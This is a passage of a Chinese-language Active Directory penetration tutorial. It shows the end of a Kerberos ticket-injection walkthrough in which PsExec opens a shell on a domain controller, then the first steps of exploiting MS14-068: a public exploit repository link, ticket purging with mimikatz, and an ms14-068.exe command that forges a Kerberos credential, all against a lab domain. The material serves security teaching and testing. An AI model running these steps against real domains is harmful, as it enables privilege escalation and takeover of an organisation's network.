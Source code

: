 ![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

**5.票据注入成功**  
![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

**6.psexec 调用目标域控制器的cmd**

```
PsExec.exe \\WIN-6JM3ECTM2CO.safe-duck.com cmd.exe
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

* * *

  

**六、ms14-068 漏洞利用**
===================

ms14-068漏洞利用不需要域控的hash，利用的是目标域控的系统漏洞。但是需要普通域用户的账号及密码。

  

**利用步骤**
--------

1.首先在域控检测是否有MS14-068这个漏洞,通过查看是否打补丁(KB3011780)来判断是否存在漏洞

  

2.攻击者拿下了一台域内的普通计算机,并获得普通域用户以及密码/hash值，以及用户的suid。exp项目地址：

```
https://github.com/abatchy17/WindowsExploits/tree/master/MS14-068
```

  

3.将内存中已有的kerberos票据清除，清除方法使用mimikatz，或者klist purge

  

4.使用whoami /all查看本机用户suid

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

5\. 利用ms14-068.exe提权工具在当前目录生成伪造的kerberos协议认证证书  

```
ms14-068.exe -u win7@safe-duck.com -p 123.com -s S-1-5-21-4065905668-3814866385-3259433788-1105 -d WIN-6JM3ECTM2CO.safe-duck.com
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

  
